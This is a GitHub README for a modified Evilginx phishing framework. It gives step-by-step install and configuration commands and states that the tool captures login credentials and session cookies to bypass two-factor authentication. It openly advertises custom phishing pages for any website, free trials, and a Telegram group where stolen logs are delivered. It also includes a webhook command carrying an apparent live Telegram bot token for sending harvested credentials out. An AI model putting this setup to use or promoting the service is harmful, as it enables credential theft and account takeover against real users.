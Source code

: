 <p align="center">
  <img alt="Evilginx2 Logo" src="https://raw.githubusercontent.com/kgretzky/evilginx2/master/media/img/evilginx2-logo-512.png" height="160" />
  <p align="center">
    <img alt="Evilginx2 Title" src="https://raw.githubusercontent.com/kgretzky/evilginx2/master/media/img/evilginx2-title-black-512.png" height="60" />
  </p>
</p>

# Latest Evilginx 3.4.1 - Modified by @HosterMSG

![alt text](https://github.com/EvilHoster/EvilGinx2-3.4.1-Modification/blob/main/screenshot.jpg?raw=true)


#ABOUT NEW UPDATES PLEASE READ CHANGELOGS FILE !
#THANKS !



#Incase u want more phishlets not only Ionos, let me know we can do any website u want without any upfront payments.
#We provide 4 hour free testing around before any kind a payment.
#In testing time u will have full access to telegram group where logs will be delivered.
https://t.me/HosterMSG




**Evilginx** is a man-in-the-middle attack framework used for phishing login credentials along with session cookies, which in turn allows to bypass 2-factor authentication protection.


How to install ?

On Ubuntu:

1. git clone https://github.com/Handbook2024/Boilevilgix.git
2. cd Boilevilgix
3. unzip latest.zip
4. cd evilhoster
5. cd build
6. chmod +rwx evilginx
7. ./evilginx -p ../phishlets/

Setup your configuration.

1. config domain something.com
2. cofig ipv4 external serverip
3. config ipv4 bind serverip
4. config unauth_url https://bots.here.redirected.com/
5. config autocert off/on

[ if ON free certificates is used, it can rate-limit your domain if u ask too much. ]
[ If OFF 
- Feature: Added support to load custom TLS certificates from a public certificate file and a private key file stored in `~/.evilginx/crt/sites/<hostname>/`. Will load `fullchain.pem` and `privkey.pem` pair or a combination of a `.pem`/`.crt` (public certificate) and a `.key` (private key) file. Make sure to run without `-developer` flag and disable autocert retrieval with `config autocert off`.
}


6.config webhook_telegram 7192062302:AAGvU9P57FF37gz-ZRUuonESXwvStiQV58Y/-15604540645

7192062302:AAGvU9P57FF37gz-ZRUuonESXwvStiQV58Y is a Token from Bot Father.
-15604540645 is a Chat ID inside your group.

Add to your Telegram group https://t.me/raw_data_bot and your Group Chat ID will be displayed.



~~ OLD VERSION ~~~
https://github.com/EvilHoster/evilginx-3.4.0-telegram-modification
~~ OLD VERSION ~~~




## Help

In case you want to learn how to install and use **Evilginx**, please refer to online documentation available at:

https://help.evilginx.com


This tool is a successor to [Evilginx](https://github.com/kgretzky/evilginx), released in 2017, but i did modification in 2024.04.02 which used a custom version of nginx HTTP server to provide man-in-the-middle functionality to act as a proxy between a browser and phished website.
Present version is fully written in GO as a standalone application, which implements its own HTTP and DNS server, making it extremely easy to set up and use.
